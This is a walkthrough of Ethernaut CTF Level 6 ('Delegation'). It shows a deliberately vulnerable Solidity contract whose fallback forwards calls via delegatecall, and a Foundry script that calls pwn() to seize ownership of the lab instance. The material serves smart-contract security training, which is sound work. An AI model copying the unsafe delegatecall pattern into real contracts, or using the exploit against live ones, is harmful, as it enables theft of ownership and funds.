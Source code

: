 # Level 6 - Delegation ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/6" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to claim ownership of the instance you are given.

&#x20; Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
* Fallback methods
* Method ids
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Delegation.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```
{% endcode %}

### Exploit

The contract forwards any unmatched function calls through to the `Delegate` contract through the `fallback()` function. As `pwn()` is only on the `Delegate` contract, it's a simple as calling `pwn()` and having it execute the function on the `Delegate` instead of the `Delegation` contract.

1. Call `pwn()`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-6

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level6.s.sol" %}

{% code title="script/Level6.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IDelegate {
    function pwn() external;
}

// ================================================================
// │                        LEVEL 6 - DELEGATION                  │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IDelegate targetContract = IDelegate(targetContractAddress);

        vm.startBroadcast();
        // Using interface:
        targetContract.pwn();

        // Without interface:
        // targetContractAddress.call(abi.encodeWithSignature("pwn()"));

        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
{% endhint %}

### Notes

* [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity
